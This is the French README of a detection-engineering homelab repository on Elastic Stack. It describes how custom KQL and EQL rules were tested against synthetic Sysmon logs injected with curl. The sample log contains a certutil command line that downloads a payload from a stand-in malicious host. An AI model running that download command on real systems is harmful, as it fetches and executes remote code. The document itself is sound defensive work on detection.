

# soc-lab-detection-engineering

Cinq cas de detection engineering comportementale et un cas de corrélation threat intelligence, réalisés sur un homelab SOC sous Elastic Stack 8.x. Les cinq premiers cas suivent la même démarche : simuler une technique ATT&CK connue, vérifier si une règle Elastic prebuilt la détecte, et si ce n'est pas le cas, écrire une règle custom (KQL ou EQL), puis documenter la démarche - succès, limites et contournements compris. Le sixième cas documente une règle Indicator Match alimentée par un feed MISP, qui relève d'un paradigme de détection différent (corrélation d'activité réseau contre une base d'IOCs connus plutôt que détection de comportement).

Le contexte d'architecture complet (déploiement Elastic, Kibana, Fleet, Logstash, Winlogbeat, VM Windows cible) est documenté dans le repo principal : [soc-lab](https://github.com/mes-divers/soc-lab).

---

## Méthodologie

Pour chaque cas :

1. **Hypothèse** - formuler ce qu'on cherche à détecter et pourquoi ce comportement est anormal.
2. **Data source** - identifier l'Event ID Sysmon ou Windows Security pertinent, le champ discriminant, et évaluer sa fiabilité (résistance au renommage, dépendance à une audit policy).
3. **Test** - injecter un log Sysmon synthétique dans Elasticsearch (voir section dédiée ci-dessous) et vérifier l'apparition de l'event dans Kibana Discover.
4. **Règle** - vérifier d'abord si une règle prebuilt Elastic SIEM couvre le cas. Si non (ou si elle couvre trop large sans cibler les champs disponibles dans le lab), écrire une règle custom KQL ou EQL.
5. **Validation** - confirmer que l'alerte se déclenche dans le panneau Alerts de Kibana Security.
6. **Limites** - documenter les bypass connus et les gaps de couverture.

---

## Contrainte architecturale : champs `winlog.event_data.*` au lieu de `process.*`

Le pipeline du lab route les logs Windows via **Winlogbeat → Logstash → Elasticsearch**. Logstash ne peut pas exécuter les ingest pipelines natifs de Winlogbeat (lesquels réalisent le mapping vers les champs ECS `process.*`, `network.*`, etc.). En conséquence, **les champs ECS standard ne sont jamais peuplés** dans ce lab.

Toutes les règles custom de ce repo ciblent donc `winlog.event_data.*` à la place des champs ECS canoniques. C'est une contrainte structurelle du pipeline, pas une erreur de configuration à corriger.

Exemple de différence :

| Champ ECS standard | Champ équivalent dans ce lab |
|--------------------|------------------------------|
| `process.executable` | `winlog.event_data.Image` |
| `process.command_line` | `winlog.event_data.CommandLine` |
| `process.parent.executable` | `winlog.event_data.ParentImage` |
| `destination.ip` | `winlog.event_data.DestinationIp` |

---

## Méthode de test : injection synthétique de logs Sysmon

Faire tourner simultanément les trois VMs du lab (Windows cible, Elastic Stack, SIEM) nécessite plus de 16 Go de RAM - ce qui n'est pas viable sur la machine hôte utilisée pour ces tests.

La méthode retenue pour les cinq cas est l'**injection directe de logs Sysmon synthétiques dans Elasticsearch via l'API REST** (`curl`), avec un timestamp dynamique. Le log est construit à la main pour reproduire exactement la structure d'un event Sysmon réel (mêmes champs, même Event ID, même channel), puis indexé dans l'index `soc-winlogbeat-*`.

Exemple de structure pour un Sysmon EID 1 (Process Create) :

```bash
curl -s -X POST "https://localhost:9200/soc-winlogbeat-test/_doc" \
  -H "Content-Type: application/json" \
  -u "elastic:<ELASTIC_PASSWORD>" \
  --cacert /etc/elasticsearch/certs/http_ca.crt \
  -d '{
    "@timestamp": "'"$(date -u +%Y-%m-%dT%H:%M:%S.000Z)"'",
    "winlog": {
      "channel": "Microsoft-Windows-Sysmon/Operational",
      "event_id": "1",
      "computer_name": "DFIR-PC",
      "event_data": {
        "Image": "C:\\Windows\\System32\\certutil.exe",
        "OriginalFileName": "CertUtil.exe",
        "CommandLine": "certutil.exe -urlcache -split -f http://malicious.example/payload.exe",
        "ParentImage": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
      }
    },
    "agent": { "name": "DFIR-PC" },
    "host": { "name": "DFIR-PC" }
  }'
```

Cette approche valide que la règle de détection fonctionne correctement sur la structure de données réelle. Elle ne valide pas le pipeline d'ingestion end-to-end ni le comportement d'un vrai exécutable. Chaque README de cas précise ce point.

---

## Cas documentés

**Détection comportementale (cas 01 à 04 et 06)**

| # | Cas | Technique ATT&CK | Langage | Severity | Dossier |
|---|-----|-----------------|---------|----------|---------|
| 1 | CertUtil LOLBin - téléchargement suspect | T1105 + T1140 | KQL | Medium | [case-01-certutil-lolbin](./case-01-certutil-lolbin/) |
| 2 | PowerShell Script Block Logging - code obfusqué | T1059.001 + T1027 | KQL | High | [case-02-powershell-sbl](./case-02-powershell-sbl/) |
| 3 | Scheduled Task créée depuis un shell | T1053.005 | EQL | High | [case-03-scheduled-task-persistence](./case-03-scheduled-task-persistence/) |
| 4 | Accès mémoire LSASS (credential dumping) | T1003.001 | KQL | Critical | [case-04-lsass-credential-access](./case-04-lsass-credential-access/) |
| 6 | Chaîne C2 - shell suivi d'une connexion sortante + IOC match | T1059 + T1071 | EQL sequence | High | [case-06-c2-correlation-chain](./case-06-c2-correlation-chain/) |

**Corrélation threat intelligence (cas 05)**

| # | Cas | Source de détection | Type de règle | Severity | Dossier |
|---|-----|---------------------|--------------|----------|---------|
| 5 | MISP IoC Match - connexion réseau vers IP IOC connue | Feed MISP via Filebeat | Indicator Match | High | [case-05-misp-indicator-match](./case-05-misp-indicator-match/) |

---

## Couverture ATT&CK Navigator

Le fichier [`navigator-layer.json`](./navigator-layer.json) peut être chargé dans [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) (Open Existing Layer > Upload from local) pour visualiser la couverture sur la matrice Enterprise ATT&CK v19.



---

## Ce qui rend ce repo crédible (et ce qu'il ne prétend pas couvrir)

**Ce que ce repo démontre réellement :**
- La capacité à formuler une hypothèse de détection, à identifier le bon data source, et à écrire une requête qui discrimine le signal du bruit.
- La connaissance des limites intrinsèques de chaque approche (bypass par renommage, downgrade de version, injection dans un process whitelisté, IOC déjà connus).
- La distinction entre KQL (suffisant pour interroger plusieurs champs d'un même event) et EQL (nécessaire pour corréler des events distincts dans le temps).

**Ce que ce repo ne prétend pas :**
- Couvrir toutes les implémentations d'une technique. T1053.005 peut être réalisé via `schtasks.exe` (couvert ici), `Register-ScheduledTask` (PowerShell, non couvert), ou l'API COM directe - chaque vecteur nécessite une règle différente.
- Avoir été testé en conditions réelles avec exécution live. Les logs sont synthétiques, ce qui valide la logique de la règle mais pas la robustesse du pipeline complet.
- Être exempt de faux positifs en production. Les seuils, exclusions et risk scores définis dans ce lab sont calibrés pour un environnement de test single-host ; ils demanderaient un tuning significatif sur un vrai parc.

La valeur de la documentation des limitations est au moins aussi importante que la documentation des succès.
